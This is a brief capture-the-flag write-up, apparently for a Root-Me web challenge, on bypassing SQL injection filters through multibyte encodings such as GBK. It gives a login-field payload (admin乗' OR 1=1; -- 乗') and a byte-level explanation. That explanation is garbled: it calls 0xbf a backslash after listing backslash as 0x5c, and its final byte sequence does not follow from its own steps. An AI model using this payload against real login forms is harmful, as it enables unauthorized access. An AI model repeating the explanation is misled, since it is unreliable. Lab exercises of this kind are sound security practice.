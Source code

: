1. [Open the task](http://challenge01.root-me.org/web-serveur/ch42/)

2. Enter the following in the login field:

> admin乗' OR 1=1; -- 乗'

### Filtering functions to protect against SQL injections may not be useful against some encodings, such as GBK.
' 	-	0x27
\	-	0x5c
乗 	- 	0x815c 
乗'	- 	0x815c27 

### After processing:
Filtering functions add 0xbf (\) before 0x5c (\) and 0x27 (')
0x81**bf**5c**bf**27 = 0x81bf & 0x5cbf & **_0x27_**


3. **Capture the flag!**